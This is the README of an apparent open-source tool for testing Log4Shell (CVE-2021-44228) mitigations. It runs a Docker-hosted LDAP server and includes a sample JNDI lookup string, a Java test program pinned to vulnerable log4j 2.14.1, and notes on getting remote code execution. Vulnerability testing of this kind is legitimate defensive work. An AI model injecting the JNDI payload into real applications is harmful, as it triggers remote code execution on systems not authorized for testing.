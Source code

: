 # log4shell-ldap
A tool for checking [log4shell](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) vulnerability mitigations.

## Usage:
- Build a container image: `docker build . -t log4shell`
- Run it: `docker run -p 3000:3000 -p 1389:1389 -e publicIp=<IP> log4shell`

Replace `<IP>` with an actual IP address of the host running the container. For local tests `localhost` should work just fine. 

Once the tool is running use `curl` to test it's reachable: `curl http://localhost:3000` 

This should print something like this:
```
$ curl http://localhost:3000
To test an application try to make log4j print ${jndi:ldap://localhost:1389/probably_not_vulnerable}
```
This output indicates the tool is running and curl was able to connect to it. 
If `curl` fails then check the IP address passed to `docker run`.

Assuming the `curl` test works then you can test an actual Java application. 
This is the simplest Java application:
```java
package mypackage;

import org.apache.logging.log4j.LogManager;

public class Main {
    public static void main(String[] args) throws Exception {
        LogManager.getLogger(Main.class).fatal("${jndi:ldap://<IP>:1389/probably_not_vulnerable}");
    }
}
```
Again, replace `<IP>` with the IP address you used to start a container image. 
To compile it with Maven you will have to add following dependency into`pom.xml`:
```xml
<dependency>
  <groupId>org.apache.logging.log4j</groupId>
  <artifactId>log4j-core</artifactId>
  <version>2.14.1</version>
</dependency>
```
The application has 3 possible outcomes:
- Prints _totally pwned!_. This is happening when a vulnerable log4j2 version is executed on old Java.
   This is the worst case as it allows a very simple arbitrary remote code execution.
- Prints _Reference Class Name: probably vulnerable_. This means a vulnerable log4j2 version is executed on recent Java.
   This makes it a bit harder to abuse the vulnerability, but RCE may still be possible. There are also information disclosure & DoS issues.
   To avoid any possible ambiguity: Don't rely on recent Java. Upgrade your log4j2 to >=2.15.0. 
- Prints _${jndi:ldap://<IP>:1389/probably_not_vulnerable}_
   This means the application is either not vulnerable or the test is misconfigured :)

## Development Setup
To compile the tool outside a container you have to build Java payload first. You can do this by running
a script prepareLocalEnv.sh. This requires JDK8 to be available. The script was tested on Linux only, I appreciate reports
how it works on other platforms.


## TODO
- Refactoring. The code is simply hideous. 
- Public container into DockerHub. Is this a good idea?
- Include Gadgets from the [yoserial project](https://github.com/frohoff/ysoserial) to try to RCE when running 
on recent Java updates. 

## Disclaimer
This is an educational tool created purely for purposes of checking various log4shell mitigations and is not intended
to be used to attack systems except where explicitly authorized. 
Author is not responsible or liable for misuse of the software. Use responsibly.

## Credits
- [yoserial project](https://github.com/frohoff/ysoserial) for the disclaimer:)
- Examples in the [ldapserver project](https://github.com/vjeantet/ldapserver/blob/9f1711e226a4d7984fd4c9d341a13537a38546a7/examples/complex/main.go). I used the Complex example as a template.
